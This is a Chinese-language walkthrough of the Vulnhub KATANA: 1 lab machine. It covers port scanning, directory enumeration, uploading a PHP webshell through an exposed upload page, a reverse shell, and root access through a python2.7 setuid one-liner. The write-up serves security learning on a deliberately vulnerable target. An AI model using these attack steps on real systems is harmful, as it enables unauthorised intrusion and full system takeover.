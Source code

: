 ```yaml
---
layer: article
title: Vulnhub 482 KATANA 1
tags: pentest vulnhub Walkthrough
---
```


考点：

靶机链接：<https://www.vulnhub.com/entry/katana-1,482/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| KATANA: 1  | 10.0.2.21 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.21  
$ sudo nmap -v -p- $rip
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Issuer: commonName=katana/organizationName=webadmin/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T13:57:36
| Not valid after:  2022-05-11T13:57:36
| MD5:   0443 4a65 9ba1 0b75 ea8d d1b8 c855 e495
|_SHA-1: f89e f85e e6b3 6b10 4ebc 5354 80a0 0ae3 7e10 50cc
|_http-server-header: LiteSpeed
|_http-title: Katana X
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-favicon: Unknown favicon MD5: AF89068FFB9883F7D99BB25F75687AC7
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
```

### WEB测试

#### 端口80

```bash
$ dirsearch -u http://10.0.2.21/    
                                      
[01:58:10] 200 -  655B  - /index.html                                       
[01:58:17] 403 -  274B  - /server-status                                    
[01:58:17] 403 -  274B  - /server-status/ 
```



#### 端口7080

dirsearch 无收获

#### 端口8088

```bash
$ dirsearch -u http://10.0.2.21:8088   
[01:55:13] Starting: 
[01:55:25] 301 -    1KB - /cgi-bin  ->  http://10.0.2.21:8088/cgi-bin/      
[01:55:27] 301 -    1KB - /css  ->  http://10.0.2.21:8088/css/              
[01:55:27] 301 -    1KB - /docs  ->  http://10.0.2.21:8088/docs/            
[01:55:27] 200 -    5KB - /docs/                                            
[01:55:30] 301 -    1KB - /img  ->  http://10.0.2.21:8088/img/              
[01:55:30] 200 -  655B  - /index.html                                       
[01:55:36] 200 -   50KB - /phpinfo.php                                      
[01:55:38] 401 -    1KB - /protected/runtime/                               
[01:55:38] 401 -    1KB - /protected/data/                                  
[01:55:43] 200 -    6KB - /upload.html                                      
[01:55:43] 200 -    2KB - /upload.php
```

![1](https://static.iihack.com/vulnhub/482/1.jpg)

上传php一句话后，文件名改为`katana_2.php`

#### 端口8715

访问后有http认证，弱口令admin admin访问后无收获


### 漏洞发现

根据8088端口上传的文件名称`katana_2.php` 编写小脚本 

```bash
import os

ip = '10.0.2.21'
ports = ('80','7080','8088','8715')
file = 'katana_2.php'
for port in ports:
    url ='http://'+ ip +':'+port +'/'+ file
    print(url)
    os.system('curl -I %s ' % url)
```

![2](https://static.iihack.com/vulnhub/482/2.jpg)



## 获得权限

访问http://10.0.2.21:8715/katana_2.php返回200，使用antsword连接成功

![3](https://static.iihack.com/vulnhub/482/3.jpg)



上传r444.php 访问后本地获得反弹shell

![4](https://static.iihack.com/vulnhub/482/4.jpg)


## 提权

运行linpeas.sh发现

![5](https://static.iihack.com/vulnhub/482/5.jpg)



```bash
www-data@katana:/tmp$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
# whoami
whoami
root
```

获得root权限

![6](https://static.iihack.com/vulnhub/482/6.jpg)
